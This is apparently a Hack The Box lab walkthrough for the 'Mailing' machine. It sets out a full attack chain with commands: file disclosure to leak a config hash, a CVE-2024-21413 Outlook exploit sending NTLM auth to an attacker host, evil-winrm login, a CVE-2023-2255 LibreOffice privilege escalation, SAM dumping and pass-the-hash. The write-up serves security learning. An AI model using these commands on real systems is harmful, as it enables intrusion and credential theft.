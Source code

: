 📬 Hack The Box: Mailing – Walkthrough

Difficulty: Medium
Category: Windows / Web / Privilege Escalation

🧠 Summary

To fully compromise the "Mailing" HTB machine, I followed this attack path:

    Information Disclosure: Leaked hMailServer.ini to extract a password hash

    NTLM Relay Attack: Leveraged CVE-2024-21413 to capture a NetNTLMv2 hash from user maya

    Privilege Escalation: Abused CVE-2023-2255 (LibreOffice) to escalate to localadmin

🔍 Recon

Initial Nmap scan revealed several open ports, including:

    Port 80 - HTTP Web Server

    Port 587 - SMTP (Used by hMailServer)

    Port 5985 - WinRM (Useful later for access)

Visiting the website hosted on port 80 revealed nothing of use, so I ran dirsearch to hunt for hidden directories.
📁 Vulnerability Discovery: File Disclosure

/download.php returned No file specified for download — suggesting a file may be passed via a GET parameter.

I tested:

/download.php?file=config.txt

After testing a few paths, I confirmed a Local File Inclusion (LFI) that allowed access to:

C:\Program Files (x86)\hMailServer\Bin\hMailServer.ini

Inside, I found a hashed password for the admin user. I submitted it to hashes.com and successfully cracked it.
💥 Exploitation: CVE-2024-21413 (Outlook RCE via NTLM)

After some research, I leveraged CVE-2024-21413 to perform an Outlook NTLM Relay using this public script:

    GitHub - xaitax/CVE-2024-21413

I ran the exploit while listening with responder, targeting maya@mailing.htb:

python3 CVE-2024-21413.py \
  --server mailing.htb \
  --port 587 \
  --username administrator@mailing.htb \
  --password <plaintext_password> \
  --sender administrator@mailing.htb \
  --recipient maya@mailing.htb \
  --url "\\<attacker_ip>\test\meeting" \
  --subject "Test"

After a few attempts, responder caught the NetNTLMv2 hash for maya. I cracked it using hashcat.
🧑‍💻 Initial Foothold

With maya's credentials and port 5985 open, I used evil-winrm to log in:

evil-winrm -i mailing.htb -u maya -p <plaintext_password>

I now had user-level access.
🔓 Privilege Escalation: LibreOffice Exploit (CVE-2023-2255)

In C:\Program Files\, I found LibreOffice v7.4. I verified that it was vulnerable to CVE-2023-2255, which allows execution of arbitrary commands via malicious .odt files.

    GitHub - elweth-sec/CVE-2023-2255

I generated an .odt payload that added maya to the Administrators group:

net localgroup administrators maya /add

Once executed successfully, I confirmed elevated privileges.
🛠️ Post-Exploitation: Hash Dump & Admin Access

Using crackmapexec:

crackmapexec smb mailing.htb -u maya -p <password> --sam

I dumped local password hashes, including one for localadmin. Instead of cracking it, I used the hash directly via wmiexec.py from Impacket:

wmiexec.py -hashes :<NTLM> localadmin@mailing.htb

And... rooted 🎉
🧾 Flags

    ✅ user.txt – Obtained via evil-winrm as maya

    ✅ root.txt – Obtained via wmiexec as localadmin

⚔️ Conclusion

Mailing was an elegant machine that combined:

    LFI → Config Leak

    NTLM Relay via Outlook → User Access

    LibreOffice LPE → Full Admin Access

It highlights the importance of patching exposed services and validating user input on web apps.
